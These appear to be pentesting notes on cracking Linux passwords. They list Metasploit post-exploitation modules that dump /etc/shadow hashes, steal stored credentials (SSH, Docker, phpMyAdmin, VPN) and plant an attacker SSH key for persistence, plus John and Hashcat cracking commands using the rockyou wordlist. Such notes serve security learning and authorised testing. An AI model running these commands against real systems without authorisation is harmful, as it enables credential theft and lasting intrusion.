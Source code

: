 # Password Cracker: Linux

- `/etc/shadow` - This file contains hashed passwords for all local users.
- `/etc/passwd` - Holds basic user info, but not the actual password hashes.

**Use the post exploitation module to dump the system users hashes**

```shell 
use post/linux/gather/hashdump
set SESSION 1
exploit
loot
```

**Run the auxiliary module to find the plain text password of the root user.**

```shell
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

The module does **not go out and find hashes by itself**. It depends on the fact that:
1. You (or a post-exploitation module) have already **dumped the hashes** (e.g., from `/etc/shadow`)
2. Metasploit **stored those hashes** in its internal database (via `loot`, `creds`, or `post modules`)
3. `analyze/crack_linux` reads those stored hashes and cracks them

**Using John**

```shell
john --format=sha512crypt <hash_file> --wordlist=<wordlist>
john --format=sha512crypt /root/.msf4/loot/....shadow.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<br>

# Dumping Hashes and Enumeration with MSF modules

```shell
use post/multi/gather/ssh_creds
# Extracts stored SSH credentials (usernames, passwords, keys) from the target system.

use post/multi/gather/docker_creds
# Gathers Docker-related credentials and configuration files from the target.

use post/linux/gather/hashdump
set VERBOSE true
# Dumps password hashes from the /etc/shadow file on a compromised Linux system.

use post/linux/gather/ecryptfs_creds
# Retrieves credentials and keys used for eCryptfs-encrypted home directories.

use post/linux/gather/enum_psk
# Enumerates pre-shared keys (PSKs) used in VPN or wireless configurations on Linux systems.

post/linux/gather/enum_xchat
set XCHAT true
# Extracts stored credentials and logs from the XChat IRC client.

use post/linux/gather/phpmyadmin_credsteal
# Steals stored login credentials from phpMyAdmin configuration files.

use post/linux/gather/pptpd_chap_secrets
# Retrieves usernames and passwords from the PPTP VPN chap-secrets file.

use post/linux/manage/sshkey_persistence
# Installs an attacker-controlled SSH public key on the target to maintain persistent access.
```

<br>

# Cracking with Hashcat

```shell
# Identify the correct mode for SHA-512 (Linux shadow format)
hashcat --help | grep 1800  # 1800 = sha512crypt

# Run Hashcat (mode 1800 for SHA-512, attack mode 0 for dictionary attack)
hashcat -m 1800 -a 0 /root/.msf4/loot/...shadow.txt /usr/share/wordlists/rockyou.txt

# Hashcat will display: <hash>:<plaintext_password>
```
